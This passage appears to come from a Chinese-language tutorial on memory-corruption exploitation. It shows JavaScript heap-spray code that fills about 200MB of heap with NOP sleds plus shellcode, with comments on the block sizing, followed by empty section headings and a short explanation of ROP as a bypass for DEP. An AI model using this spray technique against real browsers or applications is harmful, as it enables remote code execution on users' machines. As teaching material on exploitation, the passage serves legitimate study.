```
while (nop.length<= 0x100000/2)
{
	nop+=nop;
}
//generate 1MB memory block which full filled with "nop"
//0x100000/2即2^21/2=2^20即1MB 0001 0000 0000 0000 0000 0000
//malloc header = 32 bytes
//string length = 4  bytes
//NULL terminator = 2 bytes
//

nop = nop.substring(0, 0x100000/2 - 32/2 - 4/2 - shellcode.length - 2/2 );
var slide = new Array();//fill 200MB heap memory with our block
for (var i=0; i<200; i++)
{
	slide[i] = nop + shellcode;//每1M都由0x90 0x90 0x90 0x90 0x90 0x90... shellcode \0\0组成
}

</script>
```  
## 二.整数溢出
## 三.格式化字符串

## 四.释放后使用
## 五.保护机制
### 1.2 ROP
ROP即Return-oriented programming，面向返回编程，用来对抗DEP(数据执行保护)ROP，因为DEP的存在，导致攻击代码并不能执行。

